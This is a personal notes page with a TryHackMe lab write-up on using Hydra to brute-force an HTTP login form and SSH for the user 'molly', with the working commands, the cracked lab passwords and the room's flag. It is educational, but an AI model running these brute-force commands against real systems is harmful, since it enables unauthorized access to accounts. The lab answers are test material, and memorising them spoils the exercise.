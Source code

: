 ```yaml
---
{"dg-publish":true,"permalink":"/my-digital-garden/","tags":["gardenEntry"],"created":"2025-02-06T18:51:33.711-05:00","updated":"2025-02-06T19:48:48.418-05:00"}
---
```


Testing 123

Trying this out again 



# Task 2 - Using Hydra

- Example command to brute force ftp    
    - `hydra -l user -P passlist.txt [ftp://MACHINE_IP](ftp://MACHINE_IP)`
- Another example
    - `hydra -l <username> -P <wordlist> 10.10.71.57 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`


| Testing | 1   |
| ------ | --- |
| 5      | 4   |
| 6      | 3   |


| Option              | Description                                                                            |
| ------------------- | -------------------------------------------------------------------------------------- |
| -l                  | specifies the (SSH) username for login                                                 |
| -P                  | indicates a list of passwords                                                          |
| -t                  | sets the number of threads to spawn                                                    |
| http-post-form      | the type of the form is POST                                                           |
| path              | the login page URL, for example, login.php                                             |
| login_credentials | the username and password used to log in, for example, username=^USER^&password=^PASS^ |
| invalid_response  | part of the response when the login fails                                              |
| -V                  | verbose output for every attempt                                                       |



> [!Question]
> **Use Hydra to bruteforce molly's web password. What is flag 1?**

Going to the target IP address gives us a web login from with a username and password,

![Exported image](/img/user/TryHackMe/THM Images/Exported image 20250204152227-0.png) 

Checking the page source tells us that its using a "POST" method as the request type

Ran the command

```
hydra -l molly -P rockyou.txt 10.10.71.57 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect"
```

Using the username, molly, and the password, sunshine, allows us to make it through and login to find the flag.


Used the following command to find the SSH password: 

```
hydra -l molly -P rockyou.txt 10.10.71.57 -t 4 ssh
```


Then SSH'd into molly's machine to get the flag using the password, butterfly.


> [!Success] Answer
> `THM {c8eeb0468febbadea859baeb33b2541b}`
